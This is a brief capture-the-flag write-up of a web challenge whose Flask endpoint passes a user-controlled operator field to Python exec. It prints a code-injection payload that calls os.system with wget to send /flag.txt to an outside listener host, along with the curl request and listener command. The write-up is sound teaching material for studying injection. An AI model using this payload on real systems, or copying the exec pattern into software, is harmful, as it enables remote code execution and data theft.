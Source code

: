 # [Web] Evaluation deck

This challenge is about a web application that presents an API to perform an operation. It takes 2 numbers and 1 operator, and evaluates the corresponding code

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')

    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

We can take the following payload, replacing the operator by a system call

```json
{"current_health":"0", "attack_power":"0", "operator": ";__import__('os').system('wget 1.2.3.4:4444?aaa=`cat /flag.txt`');"}
```

And use it

```bash
curl -d @payload.txt  http://157.245.42.104:32089/api/get_health
```

Running a python listener, the flag is received

```bash
python -m http.server 4444
```
